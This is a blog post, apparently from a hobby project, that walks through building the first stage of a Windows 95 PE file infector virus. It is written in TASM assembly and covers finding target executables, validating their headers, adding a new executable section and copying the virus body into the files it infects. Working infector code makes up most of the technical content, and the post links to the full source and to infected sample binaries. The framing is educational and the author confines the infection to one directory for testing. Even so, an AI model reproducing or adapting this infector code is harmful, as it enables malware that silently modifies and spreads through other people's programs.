

Welcome back! If this is your first visit to VeXation you may want to start by <a href="/welcome">reading an introduction to the project</a> or <a href="/setup">the development environment setup</a>. In this post I'll share some of my experience starting out on my Windows 95 file infector virus.

# Objectives

The first objective of a file infector virus is to add its own code to another file. In my case the files will be executables. The second objective of a file infector is to make sure the newly added virus code is run in addition to the original executable code. If the virus code isn't run it can't propagate to new executables. If the original executable code isn't run then the virus broke the program it infected and will probably be detected before spreading very far.

To make things manageable I started by focusing on the first objective: adding code to another executable. I prefer to work in small chunks where possible so I chose to break the task up as follows:

1. Finding new target executables.
1. Deciding if a target is suitable for infection.
1. Adding a new section to the target with the correct size and metadata.
1. Writing the virus code into the new section of the target.

As I introduce each topic at a high level I'll share some snippets of my assembly code so far. Towards the end I'll share the full assembly source code along with some pointers. Lastly I'll talk about how I validated my work with some handy low level tools.

# Generation 0

Initially it took me some time to wrap my head around _"Generation 0"_ of a virus versus subsequent generations. I'm not certain if anyone else uses this "generation" terminology but it's what made sense to me.

Typically when you encounter a virus as an end user it's from running a benign program that was infected by a virus. Have you ever asked yourself how that program was infected? Chances are high that it was infected by another infected benign program. If you imagine tracing these infections backwards eventually there must have been a "Generation 1", the first benign executable infected by the virus.

How was the generation 1 program infected? The author of the virus must have conspired to do this using what I call "Generation 0" - a program built to bootstrap the infection process. Unlike "Generation n" there is no benign functionality in generation 0, it exists only to infect.

Having some terminology in mind for this was important because I found later on there were practical considerations to be made based on whether the code executing is generation 0 of the virus or a subsequent generation.

# Finding target .EXEs

One of the classic problems of virus development is making sure that your creation doesn't escape the "lab" or destroy your development system. I imagine this was extra tricky before virtualization was easy. With the potential for disaster in mind I decided to start by only finding target executables to infect within the same directory as the generation 0 program. It isn't very difficult to recursively search other directories down the road.

This simple infection strategy makes development easier. For example I wrote my [`Makefile`'s `run` target](https://github.com/cpu/vexation/blob/63dd691b18b26f56381b53878a2f1fa29bb047a7/minijector/Makefile#L46-L49) to copy a clean `calc.exe` from `C:\WINDOWS` into the current directory before running the generation 0 program, overwriting any previously infected versions in the process. I know the infection won't spread beyond the working directory and so everything is neatly contained.

```makefile{numberLines:true}
run:: $(NAME).EXE
   del CALC.EXE
   copy C:\WINDOWS\CALC.EXE
   td32 $(NAME).EXE
```

Finding target files requires using Win32 API functions. I found a copy of [`win32.hlp` for Windows 95](https://github.com/trietptm/OllyDbg-Archive/blob/master/HLP-Files/win32.hlp) that I use as my primary reference for the available Win32 APIs, their arguments and their return values. **Pay particular attention to API function return values!** Some API functions (e.g. `FindNextFileA`) return zero for errors. Other API functions (e.g. `FindFirstFileA`) return something non-zero (e.g.`FindFirstFileA` returns `0xFFFFFFFF` on error).


To keep things simple I have been limiting my code to ASCII compatibility which means using [the "A" variant of some win32 APIs](https://docs.microsoft.com/en-us/windows/desktop/intl/unicode-in-the-windows-api) (for ASCII) vs the "W" variant (for Wide Chars). Remember to drop the "A" suffix when looking up documentation (e.g. search for `FindFirstFile` in the `win32.hlp` index not `FindFirstFileA`). Assembly programmers have to care about "A" vs "W" where normally the Visual C++ runtime hides this distinction from programmers with compile time magic.

To find files in the current directory requires using a combination of [`FindFirstFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findfirstfilea) and [`FindNextFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findnextfilea). The first is used to start a directory traversal and the second is used to continue it. By providing a pointer to the null terminated string `"*.exe"` as the `lpFileName` I'm able to start a traversal of all executables (if any!) in the current directory.

```nasm{numberLines:true}
; inputs:   `infectFilter` -> the pattern to find
;           `findData`     -> the data structure to populate
; outputs:  `targetFile`   -> the path to an .exe in the PWD to check
;
findfirst:
  mov eax, offset infectFilter
  mov ebx, offset findData
  call FindFirstFileA, eax, ebx

  ; If we got an invalid handle from FindFirstFileA that means there were 
  ; no EXEs in the directory. Jump to error to handle this case.
  cmp eax, INVALID_HANDLE_VALUE
  je error
  mov [findHandle], eax

targetfound:
  ; Otherwise we have a potential .exe target to examine
  ; Copy the name of the file from the find data to our targetFile var.
  mov eax, offset targetFile
  mov ebx, offset findData.cFileName
  call lstrcpy, eax, ebx
  cmp eax, 0h
  je error
  ; If there was no error, map the target file.
  jmp mapfile

; If we're here it means the targetFile wasn't any good.
; Time to look at the next available .exe file using FindNextFile
findnext:
  mov eax, [findHandle]
  mov ebx, offset findData
  call FindNextFileA, eax, ebx
  cmp eax, 0h
  je error
  ; If there was no error, we found a potential target. Jump back
  ; to targetFound.
  jmp targetfound
```

# Deciding if a target is suitable

This is another classic virus dilemma. Not all target programs are created equal and infecting the wrong program can be disastrous, breaking the target and making the infection inert.

## What should be checked?

A good executable infector needs to check that:

1. The target file is a true executable (e.g. not something else renamed to have an `.exe` extension).
1. The target file is a supported executable format (e.g. a PE executable).
1. The target file is a "normal" PE executable (e.g. not a DLL).
1. The target file's code is the right architecture (e.g. x86 code).
1. The target file is for a supported Windows version (e.g. Win95 not NT).
1. The target file has space for the infection, or can support adding space.
1. The target file hasn't already been infected.

There's a lot to consider! Since I'm targeting Windows 95 I knew the answer to all of the above involved understanding the [Portable Executable (PE) format](https://en.wikipedia.org/wiki/Portable_Executable). This is the native executable format for Win95 and supplies ways for a diligent virus writer to check all of these things.

I found there was no better resource for understanding PE's than Matt Pietrek's classic from 1994: ["Peering Inside the PE: A Tour of the Win32 Portable Executable File Format"](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)). It's a lot to take in at once but I hope calling out the most important parts as I go along will make it a bit more accessible. If you've been around the block with modern Windows much of this will be familiar because Windows still uses PE executables!

If you're more visually minded then [Ange Albertini's](https://github.com/angea) excellent [PE 101 Illustrated](https://github.com/corkami/pics/tree/master/binary/pe101) is another great companion resource to have handy.


## Checking a target executable file

At a high level checking a target file is pretty straight forward. I needed to:

1. open the file for reading.
1. check the overall file size.
1. memory map the file.
1. carefully check offsets within the memory mapped contents.

To open an existing file I need to use the counter-intuitively named [`CreateFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-createfilea) function from the Win32 API. This returns a handle pointer for the file that can be used for further operations. The handle doesn't allow reading from the file by itself but can be used with API calls that can.

To get the file size I used the handle from `CreateFileA` with the [`GetFileSize`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-getfilesize) function. Windows supports file sizes from 0 to 2<sup>64</sup> bytes so the return value from `GetFileSize` is split into a lower order `DWORD` (four bytes) returned in the `eax` register (the win32 api uses [the "stdcall" calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall)) and a higher order `DWORD` (stored using the pointer provided as input to `GetFileSize`). Since I'm only concerned with verifying a target file is at least big enough to hold the expected PE header structures I can ignore the pointer to the higher order `DWORD` and just examine the lower order `DWORD` returned  directly from `GetFileSize`.

There are two paths forward to read and write data from the file handle. Either using [`SetFilePointer`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-setfilepointer) and [`ReadFile`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-readfile)/[`WriteFile`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-writefile) or using memory mapping. I chose to use memory mapping because it involved making less API calls and seemed slightly more straight forward.

Memory mapping requires calling [`CreateFileMappingA`](https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga) using the file handle from `CreateFileA` to get yet another handle, this time to a file mapping object. I was able to use the file mapping object handle with `MapViewOfFile` to map a specified portion of the underlying file into memory. The return value from this function is a pointer to the region of memory the file was mapped and it's possible to read and write from this region to access and change the file's contents.

```nasm{numberLines:true}
; inputs:   `targetFile`       -> the path to an .exe in the PWD to check
; outputs:  `targetFileHandle` -> handle to the target .exe
;           `targetFileSize`   -> the target's filesize (lower bound)
;           `targetMapHandle`  -> a handle to a memory map of the target .exe
;           `targetP`          -> a pointer to the start of the memory map
;
mapfile:
  ; Open a file handle to the targetFile. Use READ + WRITE so we can modify 
  ; the file easily if it turns out to be infectable.
  mov eax, offset targetFile
  call CreateFileA, \
         eax,\                           ; file name
         GENERIC_READ + GENERIC_WRITE,\  ; attributes
         0h,\                            ; share mode (not used)
         0h,\                            ; sec attributes (not used)
         OPEN_EXISTING,\                 ; creation disposition
         FILE_ATTRIBUTE_NORMAL,\         ; file attributes
         0h                              ; template handle (???)
  cmp eax, INVALID_HANDLE_VALUE
  je findnext
  mov [targetFileHandle], eax

  ; Get the target file's original size
  call GetFileSize, eax, 0
  cmp eax, INVALID_HANDLE_VALUE
  je findnext
  mov [targetFileSize], eax

  ; The target file should at least be big enough for a full IMAGE_DOS_HEADER
  cmp eax, size IMAGE_DOS_HEADER
  jle error

  ; Create a read/write file mapping for the entire targetFile
  mov eax, [targetFileHandle]
  call CreateFileMappingA, \
         eax,\                 ; file handle
         0h,\                  ; sec attributes (not used)
         PAGE_READWRITE,\      ; attributes
         0h,\                  ; size high
         0h,\                  ; size low
         0h                    ; name (null for no name)
  cmp eax, 0h
  je findnext
  mov [targetMapHandle], eax

  ; Map the entire targetFile into memory
  call MapViewOfFile, \
    eax,\                      ; mapping object handle
    FILE_MAP_WRITE,\           ; access
    0h,\                       ; offset high
    0h,\                       ; offset low
    0h                         ; number of bytes to map (0 for all)
  cmp eax, 0h
  je findnext
  mov [targetP], eax
```

## Offsets to check

With the file memory mapped it's possible to check whether it can be infected by examining key offsets within the DOS and PE headers. Initially when I was looking at example PE infector source code from this era I found most were using numeric offsets as magic numbers throughout the code. For example, here's one snippet I found that copies the file and section alignment from a PE header using numeric offsets:

```nasm{numberLines:true}
; falignvalue will contain the FileAlignment
; and salignvalue will contain the SectionAlignment
mov eax, [ebx + 3Ch]
mov [ebp + falignvalue], eax
mov eax, [ebx + 38h]
mov [ebp + salignvalue], eax
```

I'm not sure if this is because programmers were often ripping working assembly from viruses found in the wild missing source level context or if it was just how people did it at the time. Either way I found it made code that was difficult to 
read.

Life was much easier when I used my assembler's ability to define structures. `TASM`/`MASM` both support the `STRUCT` keyword for this. If there was a `STRUCT` for the PE header and its optional header then the section and file alignment fields could be accessed without using numeric offsets like `0x3C` and `0x38`:

```nasm{numberLines:true}
; falignvalue will contain the FileAlignment
; and salignvalue will contain the SectionAlignment
mov eax, (IMAGE_NT_HEADERS [ebx]).OptionalHeader.FileAlignment
mov [ebp + falignvalue], eax
mov eax, (IMAGE_NT_HEADERS [ebx]).OptionalHeader.SectionAlignment
mov [ebp + salignvalue], eax
```

I found that the [MASM32 distribution](http://www.masm32.com/) came with a great `windows.inc` file that contained many predefined structure definitions, including the ones most important for PE manipulation: `IMAGE_DOS_HEADER` and `IMAGE_NT_HEADERS`. 

One thing I noticed was that the `windows.inc` field names didn't always match up to the PE docs exactly (e.g. `SecHdrVirtualAddress` vs `VirtualAddress`). The reason for this is because `MASM` (and `TASM` in compatibility mode) doesn't locally scope names within `STRUCT`s, meaning there can be only one structure field named `VirtualAddress` across all `STRUCT`s. If another `STRUCT` needs a field for a similar purpose it can't use the same name and has to add a prefix (e.g. Using `SecHdr` for the section header `STRUCT` field because `Hdr` is already in use elsewhere).


For this project I needed to check each target file for following things to decide if it could be infected:

1. There should be an `IMAGE_DOS_HEADER` [DOS MZ header](https://en.wikipedia.org/wiki/DOS_MZ_executable) at the very start of the file.
1. The `e_lfanew` pointer from the `IMAGE_DOS_HEADER` should point to an `IMAGE_NT_HEADERS` PE header.
1. The `IMAGE_NT_HEADERS`' `OptionalHeader`'s `Subsystem` field should be the value for the Windows GUI or Windows CUI subsystem (e.g. a graphical or command line Windows program).
1. The `IMAGE_NT_HEADERS`' `FileHeader`'s `Machine` field should be the value for the `i386` architecture.
1. There shouldn't be an `IMAGE_SECTION_HEADER` present with the same name as the virus code section present (or it's already infected).
1. There should be enough space for an additional `IMAGE_SECTION_HEADER` to be added.

```nasm{numberLines:true}
; inputs:   `targetP`        -> a pointer to the start of the memory mapped 
;                               target .exe
;           `targetFileSize` -> the size of the target .exe on disk (lower
;                               bound)
; outputs:  `eax`            -> pointer to the start of `IMAGE_NT_HEADERS` in
;                               an infectable target .exe
;
; With the target EXE mapped into memory we can start checking it out
@@checkdosheader:
  mov eax, [targetP]
  ; Check that we have a DOS header by looking for the IMAGE_DOS_SIGNATURE
  ; (the magic MZ bytes) at the expected offset
  cmp (IMAGE_DOS_HEADER [eax]).e_magic, IMAGE_DOS_SIGNATURE
  jnz findnext

  ; Advance past the end of the IMAGE_DOS_HEADER structure to the
  ; IMAGE_NT_HEADERS
  add eax, (IMAGE_DOS_HEADER [eax]).e_lfanew

  ; Check that the offset specifed by e_lfanew isn't out of bounds for the 
  ; file size
  mov ecx, eax
  sub ecx, [targetP]
  cmp ecx, [targetFileSize]
  jge findnext

  ; Check that there is enough room for an IMAGE_NT_HEADER
  add ecx, size IMAGE_NT_HEADERS
  cmp ecx, [targetFileSize]
  jge findnext
   
@@checkpeheader:
  ; Check that we have a PE header by looking for the right magic
  ; bytes (PE) at the expected offset
  cmp (IMAGE_NT_HEADERS [eax]).Signature, IMAGE_NT_SIGNATURE
  jnz findnext

@@checksubsystem:
  ; We only want to infect GUI or Console apps, not device drivers, 
  ; WinCE apps, etc
  cmp (IMAGE_NT_HEADERS [eax]).OptionalHeader.Subsystem, IMAGE_SUBSYSTEM_WINDOWS_GUI
  jz @@checkmachine
  cmp (IMAGE_NT_HEADERS [eax]).OptionalHeader.Subsystem, IMAGE_SUBSYSTEM_WINDOWS_CUI
  jnz findnext

@@checkmachine:
  ; We need to verify the PE is targetting a i386 machine.
  cmp (IMAGE_NT_HEADERS [eax]).FileHeader.Machine, IMAGE_FILE_MACHINE_I386
  jnz findnext
```

# Adding virus code

There are lots of ways to add new virus code to an existing PE executable. Three common ways I considered were:

1. Adding the virus code in one piece in the unused padding of an existing code section.
1. Breaking the virus code into pieces and putting those pieces in unused space  found in an existing code section.
1. Adding the virus code as a whole new code section.

Option 1 is straight forward but could mean some target files won't have enough space to be infected. PE code sections are usually aligned on disk by `0x200` bytes (the actual alignment is specified in the PE header), meaning that in the best case if an existing code segment were `0x201` bytes before being aligned with padding the virus could be up to `0x1FF` bytes. In the worst case if the existing code segment was exactly `0x200` bytes before alignment then there would be 0 bytes left for an infection! Since I wasn't sure what an "average" amount of padding was for executables from this era, or how big my virus would eventually be I decided not to pursue this approach to start with.

Option 2 is more complex but can make better use of free space in places other than the section padding. The complexity involved in breaking up the virus code into little segments and connecting them up at run-time was too much to  make this a good choice when I was just starting out.

Option 3 is what I settled on. This option gave me freedom to make my virus as big as I wanted and looked like a good place to start. The only space constraint this approach has is making sure that there is enough room in the PE header for one new section metadata entry.

The downsides of this approach relate to anti-virus. Putting it bluntly adding a new section is not subtle. You can identify whether a file is infected or not based on the presence of the new section (in fact that's how I prevent reinfection). You could even "inoculate" files against infection by adding a benign section with the same name as the virus section. Unlike options 1 and 2, this option also changes the infected file's size on disk. Lastly, from an AV perspective it's easy to disinfect infected programs by restoring the original entrypoint and deleting the malicious segment. Since I was mostly unconcerned with AV these downsides were acceptable.

At a high level adding a new section means:

1. Increasing the `NumberOfSections` `WORD` in the `IMAGE_NT_HEADERS`'    `FileHeader`.
1. Finding the end of the `IMAGE_SECTION_HEADERS` array and adding one more    entry.
1. Calculating the correct `VirtualSize`, `SecHdrVirtualAddress`,    `SizeOfRawData` and `PointerToRawData` for the new `IMAGE_SECTION_HEADER`.
1. Setting the correct `SecHdrCharacteristic` flag for the new    `IMAGE_SECTION_HEADER`.

Increasing the `NumberOfSections` is self explanatory. Finding the end of the `IMAGE_SECTION_HEADERS` array requires some math. The start of this array is always immediately after the end of the base PE `IMAGE_NT_HEADERS` structure. I knew where the start of the PE structure is (the `e_lfanew` pointer from the `IMAGE_DOS_HEADER`) and I knew the size of the `IMAGE_NT_HEADERS` structure. That gives me the end of the PE structure and the start of the `IMAGE_SECTION_HEADER` array. I can calculate the offset to the end of the array by multiplying `NumberOfSections` by the size of each `IMAGE_SECTION_HEADER` structure.

```nasm{numberLines:true}
; inputs:   `eax`              -> pointer to the start of `IMAGE_NT_HEADERS`
;                                 in the target .exe
; outputs:  `numberOfSections` -> number of sections in the target .exe
;           `segHeaders`       -> pointer to the start of the
;                                `IMAGE_SECTION_HEADER`s in the target .exe
;           `lastSegHeader`    -> pointer to the start of the last
;                                `IMAGE_SECTION_HEADER` in the target .exe
;
; Copy down how many sections the target PE has
mov cx, (IMAGE_NT_HEADERS [eax]).FileHeader.NumberOfSections
movzx ecx, cx
; If there are zero sections, something is off, move on
cmp ecx, 0h
je findnext
; Save the number of sections
mov [numberOfSections], ecx

; Move ahead to the section table
add eax, size IMAGE_NT_HEADERS

; Check that the pointer is still within the file size
mov ecx, eax
sub ecx, [targetP]
cmp ecx, [targetFileSize]
jge findnext

; Check that the last segment specified is within the file size
mov ecx, [numberOfSections]
mov edx, size IMAGE_SECTION_HEADER
imul ecx, edx
mov ebx, eax
add ebx, ecx
sub ebx, [targetP]
cmp ebx, [targetFileSize]
jge findnext

; Save the location of the first section header
mov [segHeaders], eax

; The last segment header should be at an offset:
;   sizeof IMAGE_SECTION_HEADER * numberOfSections - 1
mov ecx, [numberOfSections]
dec ecx
mov edx, size IMAGE_SECTION_HEADER
imul ecx, edx

; Its an RVA from targetP so offset by eax
mov edx, eax
add ecx, edx

; Store the location of the last segment header
mov [lastSegHeader], ecx
```

Having to calculate two sizes (`VirtualSize`, and `SizeOfRawData`) and two offsets (`SecHdrVirtualAddress` and `PointerToRawData`) for the section header metadata may seem strange at first. The duplication is more understandable when put in context. PE sections describe something that exists both on disk, and eventually [once loaded by the OS](https://en.wikipedia.org/wiki/Loader_%28computing%29), in memory. These two contexts have different requirements. As one example on disk it's beneficial for code to be aligned to suit the filesystem. In memory it's beneficial for code to be aligned to suit memory pages. Having one format that can describe both the "virtual" (in memory) and the "physical/raw" (on disk) makes sense and allows for a lot of flexibility.

Calculating the right virtual size and raw data size required knowing the original unaligned size of the virus code. TASM provides a handy tool for this known as the "location counter symbol".



By placing a label (`viral_payload`) at the very start of the virus code I could use the location counter symbol (`$`) in an equate that will provide an accurate size constant (`viral_payload_size`) for the rest of the code to use:

```nasm
viral_payload_size EQU $ - viral_payload
```

This equate stayed current as I tweaked the code and avoided having to update a fixed value. The unoptimized assembly linked to later in this post ends up having `viral_payload_size EQU 38Eh`, a pretty beefy `910` bytes (`0x038E` == `910`).

Aligning the virtual and raw sections according to the required alignment sounds difficult but is just a way of saying that the unaligned size must be made evenly divisible by the alignment value. The calculation is:

```nasm
(((originalSize - 1) / alignment) + 1) * alignment
```

A typical value for the PE optional header section alignment is `0x1000`, so the adjusted `VirtualSize` of the new section assuming the `viral_payload_size` is `0x038E` is:

```nasm
VirtualSize = (((0x038E - 0x1) / 0x1000) + 0x1) * 0x1000 
            = 0x1000 = 4096
```

For the `SizeOfRawData` a typical file alignment value is `0x0200`, so the calculation is:

```nasm
SizeOfRawData = (((0x038E - 0x1) / 0x0200) + 0x1) * 0x0200 
              = 0x0400 = 1024
```

In both cases you can see the aligned size ends up larger than the original virus size. The extra space in the file and in memory will be empty padding and that's why file infectors often find the space they need in existing executable segments.

The `SecHdrVirtualAddress` value is a relative virtual address (RVA) that specifies where the section will start in memory relative to where the loader puts the executable. Many things are specified as RVAs so it's important to be familiar with this concept. I wanted my new section to start after the end of the existing final section in the target executable which meant the `SecHdrVirtualAddress` for the new section needed to point at the last section's `SecHdrVirtualAddress` plus the last section's `VirtualSize`.

Similar to the `SecHdrVirtualAddress`, the `PointerToRawData` value is an RVA that specifies where the section will start relative to the beginning of the PE file on disk. The new section should start after the last section on-disk so the `PointerToRawData` value needed to be the last section's `PointerToRawData` plus the last section's `SizeOfRawData`.

The last part was setting the `SecHdrCharacteristics` flag. The new section contains code and should be executable and readable. In the future I know I'll want the virus code to be able to modify parts of its own section so I also wanted the section to be writable. All told this meant the flag value was the combination of the `IMAGE_SCN_MEM_READ`, `IMAGE_SCN_MEM_WRITE`, `IMAGE_SCN_MEM_EXECUTE` and `IMAGE_SCN_CNT_CODE` bitmasks.

```nasm{numberLines:true}
; inputs:   `viral_payload_size` -> unpadded virus code size
;           `sectionAlignment`   -> section alignment specified in the target 
;                                   .exe PE `OPTIONAL_HEADER`
;           `fileAlignment`      -> file alignment specified in the target
;                                   .exe PE `OPTIONAL_HEADER`
;           `edi`                -> pointer to start of new virus 
;                                  `IMAGE_SECTION_HEADER`
;           `targetP`            -> pointer to the start of target .exe 
;                                   memory map
;           `numberOfSections`   -> number of sections in target .exe
;
; outputs:  `injectStart`        -> pointer to the start of the added virus code 
;                                   section data.
;           `injectSize`         -> the size of the new raw section data.
;
;
; Fix the VirtualSize, ensuring its a multiple of the section alignment
mov eax, viral_payload_size
sub eax, 1
xor edx, edx
div [sectionAlignment]
add eax, 1
mul [sectionAlignment]
mov (IMAGE_SECTION_HEADER [edi]).VirtualSize, eax

; Fix the virtual address, again ensuring section alignment
mov ecx, [lastSegHeader]
mov eax, (IMAGE_SECTION_HEADER [ecx]).VirtualSize
mov ecx, (IMAGE_SECTION_HEADER [ecx]).SecHdrVirtualAddress
add eax, ecx
sub eax, 1
xor edx, edx
div [sectionAlignment]
add eax, 1
mul [sectionAlignment]
mov [edi].SecHdrVirtualAddress, eax

; Back at the start of the PE file fix the section count by incrementing it
mov ecx, [targetP]
add ecx, (IMAGE_DOS_HEADER [ecx]).e_lfanew
mov eax, [numberOfSections]
inc eax
; Write the updated number of sections
mov (IMAGE_NT_HEADERS [ecx]).FileHeader.NumberOfSections, ax

; Fix the raw data size, ensuring it is a multiple of the file alignment
mov eax, viral_payload_size
sub eax, 1
xor edx, edx
div [fileAlignment]
add eax, 1
mul [fileAlignment]
mov (IMAGE_SECTION_HEADER [edi]).SizeOfRawData, eax

; Fix the raw data pointer - this should point to the beginning of the
; new section, which is located right after the end of the current last
; section. Adding the last section's PointerToRawData (the start of the
; last section) to SizeOfRawData gives us this address.
mov ebx, [lastSegHeader]
mov eax, (IMAGE_SECTION_HEADER [ebx]).PointerToRawData
add eax, (IMAGE_SECTION_HEADER [ebx]).SizeOfRawData
mov (IMAGE_SECTION_HEADER [edi]).PointerToRawData, eax

; Save the pointer to raw data and the size of the raw data
mov eax, (IMAGE_SECTION_HEADER [edi]).PointerToRawData
mov [injectStart], eax
mov eax, (IMAGE_SECTION_HEADER [edi]).SizeOfRawData
mov [injectSize], eax

; Fix the section flags. Notably we want this to be both EXECUTE and WRITE
mov ecx, IMAGE_SCN_MEM_READ + \
         IMAGE_SCN_MEM_WRITE + \
         IMAGE_SCN_MEM_EXECUTE + \
         IMAGE_SCN_CNT_CODE
mov (IMAGE_SECTION_HEADER [edi]).SecHdrCharacteristics, ecx
```

# Writing the virus code into the new section

The last trick I needed to perform is to expand the target's overall file size. The new section metadata that gets added is inside of existing slack space between the end of the `IMAGE_NT_HEADERS` structure and the beginning of the first section and didn't require changing the file size. The new section content will be added at the end of the file and so I had to enlarge the overall executable to make room after the last section's contents.

Increasing the file size turns out to be pretty easy and only required remaping the file using `CreateFileMappingA` and `MapViewOfFile` again, adjusting the arguments to account for the new space. Because I'm modifying a PE file on disk I need to adjust by the new section's `SizeOfRawData` not the original unpadded size or the `VirtualSize`.

```nasm{numberLines:true}
; inputs:   `targetFileSize`   -> the original .exe size on disk (lower bound)
;           `injectSize`       -> the size of the new virus section's raw data
;           `targetFileHandle` -> handle to the target .exe file
;
; outputs:  `targetMapHandle`  -> an updated memory map handle for the target 
;                                 .exe file updated to the new size.
;
; Calculate the new size we should map. This is the old file size + 
; the size of the new section on-disk
mov eax, [targetFileSize]
mov ecx, [injectSize]
add eax, ecx
mov ebx, [targetFileHandle]

; Memory map the target PE file again with this new size
call CreateFileMappingA, \
       ebx,\                 ; file handle
       0h,\                  ; sec attributes (not used for win95)
       PAGE_READWRITE,\      ; r/w attributes
       0h,\                  ; flProtect (??)
       eax,\                 ; high size (adjusted filesize)
       0h                    ; low size
cmp eax, 0h
je error
; Save a handle to the new memory map
mov [targetMapHandle], eax
```

After the enlarged view of the file is mapped it was just a matter of copying the generation 0 code that is currently executing from memory into the new section. For this I used a fun bit of self-referential code that relies on the `viral_payload` label and the new `SizeOfRawData` to know where to begin copying from and how many bytes to copy.

```nasm{numberLines:true}
; inputs:   `injectStart`   -> the start of the new virus section's raw data
;           `injectSize`    -> the size of the new virus section's raw data
;           `eax`           -> the `targetP` pointer to the start of the .exe 
;                              memory map
;
; Time to write the new section content with our own code
@@startcopyviruscode:
  ; Destination: the start of our section in targetP
  mov edi, eax
  add edi, [injectStart]
  ; Source: the beginning of the virus code
  mov esi, offset viral_payload
  ; Number of bytes to copy: size of the injected section
  mov ecx, [injectSize]
; Copy the virus code into place
@@copyviruscode:
  rep movsb
```

# Complete Assembly code

The code that implements all of the above is available in the [VeXation Github
repo](https://github.com/cpu/vexation) under [the `minijector` folder](https://github.com/cpu/vexation/tree/master/minijector). "Mini" because it isn't a finished virus, "jector" because saying "injector" over and over was driving me batty.

Assuming you have <a href="/setup">the same dev environment set up</a> as I do you can build the project with `make` (or with debug symbols using `make -DDEBUG`). If you want to step through an infection process run `make run` which will copy a clean `calc.exe` into the project directory and then run `td32` on the `minijector.exe` binary to let you step through the infection process.

A few high level notes:

* The majority of the good stuff is in [minijector.asm](https://github.com/cpu/vexation/blob/master/minijector/minijector.asm).
* I used `.model flat, stdcall` at the start so that subsequent `call` instructions for Win32   APIs are handled correctly by default. Win32 uses the `stdcall` calling   convention and it's a pain to `push` arguments onto the stack in reverse order   manually.
* I didn't use any of TASM's "Ideal" mode and the code _should_ be MASM   compatible.
* My [`windows.inc` file](https://github.com/cpu/vexation/blob/master/minijector/windows.inc) is a stripped down version of what comes with [the   MASM32 SDK](http://www.masm32.com/). Using the unaltered MASM32 `windows.inc` results in build errors because it's SO BIG. I cut it down to only what `minijector` uses. 
* I chose to name the virus segment `ireloc`. That's because most PE binaries   already have a `reloc` section and an `idata` section. `ireloc` sounds like it should belong, no? :-)
* I tried to write defensive code. Lots of public virus source code skips   checking error returns from API calls or assumes the DOS/PE headers aren't   malicious/invalid and I hope paying attention to that stuff makes my extremely   simple virus marginally less lame. That said, I'm sure I messed something up and a malicious PE file could be crafted that will crash the infection routines (Send me a sample if you make one!)
* I used a lot of locally scoped (`@@` prefixed) labels as something between a comment and a marker post for navigating the sourcecode. This is probably a "quirk" of my own style and not a great practice.
* I'm a pretty novice assembly programmer, so (kind) feedback is welcome!

# Verifying the work so far

Whenever computers are involved I find it's helpful to verify my work in as many ways as possible. Since PE files exist both at-rest on disk and in-memory at-runtime I found it useful to verify both states of an infected `calc.exe` looked like I expected after running the `minijector.exe` generation 0 infector in the same directory.

Borland Turbo Assembler 5.0 comes with a handy program called `tdump` short for (hold your laughter) "Turbo Dump". This command lets you easily see PE metadata for a given executable. I've included the `tdump` output for a clean `calc.exe` [here](https://github.com/cpu/vexation/blob/master/minijector/calc.clean.exe.tdump.txt), and the `tdump` of an infected `calc.exe` [here](https://github.com/cpu/vexation/blob/master/minijector/calc.exe.tdump.txt).

There is one important difference in the output that I used to verify the work so far. The original `calc.exe` has the following sections in the object table:

```
Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags   
--  --------  --------  --------  --------  --------  --------
01  .text     000096B0  00001000  00009800  00000400  60000020 [CER]
02  .bss      0000094C  0000B000  00000000  00000000  C0000080 [URW]
03  .data     00001700  0000C000  00001800  00009C00  C0000040 [IRW]
04  .idata    00000B64  0000E000  00000C00  0000B400  40000040 [IR]
05  .rsrc     000015CC  0000F000  00001600  0000C000  40000040 [IR]
06  .reloc    00001040  00011000  00001200  0000D600  42000040 [IDR]
```

The infected `calc.exe` has one more section (the virus section!) in addition to all of the above:

```
07  .ireloc   00001000  00013000  00000400  0000E800  E0000020 [CERW]
```

It was also reassuring at this point to see an RVA value (corresponding to the the `SecHdrVirtualAddress` field) that was higher than all of the previous section's RVA values, as well as a Physical Offset (corresponding to the `PointerToRawData` field)  that was higher than all of the previous section's Physical Offset's. Also reassuring was seeing the two sizes of the new section both seemed properly aligned and matched my earlier padding calculations.

As mentioned before the new virus section is not subtle and its flags value (corresponding to the `SecHdrCharacteristics` field) make it even less so. I set the characteristics flag of the section to be read/write as well as executable in preparation for future work and a writable code section will likely tickle some AV heuristics.

To be extra sure things were working as expected I used the values from `tdump` as a map into a raw `hexdump -C` of both [the clean `calc.exe`](https://github.com/cpu/vexation/blob/master/minijector/calc.clean.exe) and [the infected `calc.exe`](https://github.com/cpu/vexation/blob/master/minijector/calc.exe). I cheated here and ran `hexdump` from my Linux host because I really didn't want to find a hex dump utility for Windows 95. I included the hexdump output from a clean calc.exe [here](https://github.com/cpu/vexation/blob/master/minijector/calc.clean.exe.hexdump.txt) and from the infected calc.exe [here](https://github.com/cpu/vexation/blob/master/minijector/calc.exe.hexdump.txt).

